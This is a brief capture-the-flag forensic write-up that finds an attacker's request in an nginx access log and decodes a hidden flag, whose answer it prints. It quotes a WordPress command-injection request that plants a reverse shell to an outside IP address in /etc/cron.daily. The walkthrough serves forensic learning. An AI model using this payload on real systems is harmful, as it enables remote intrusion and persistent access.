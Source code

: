 # Forensic Vulnerable Season
## Solution:

**Flag: HTB{L0g_@n4ly5t_4_bEg1nN3r}**

*That is quite little bit easy challenge, but i dunno this take me much time to read all that. But easily, you can do this job for get the flag*

1. You need to analysis that access.log file come from nginx include two type request --> 200 and 404
2. Base on the description, they talk their machine is pwned, so it much be return 200 for successful requests, You need to follow up that kind, with me is just use bash script to solve

        cat access.log | awk '{ if ($9 == 200) { print $7 } }'  > uri.log
        ## Description ##
            This stuff command will help you find the 200 request status and print the request URI into uri.log file
        ## End ##

3. After that you can decrease the line you need to read from 11734 --> 792, easily for little :smiley:. So the machine is pwned, the script can do that is some kind like reverse shell and the string in line 545 is very supicious. 

        /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL

        ## Description ##
            This request uri like a bash script, it will do something like send tcp connect to ip address and get the shell. But on the string have some base64 and you can take look they use base64 for decoding that and reverse that again
        ## End ##

4. So go take look about my `solve.sh`, this contain the code which end of line a request URI. Execute that bash script and you will got will that

        ./solve.sh

**Get the result and GG**
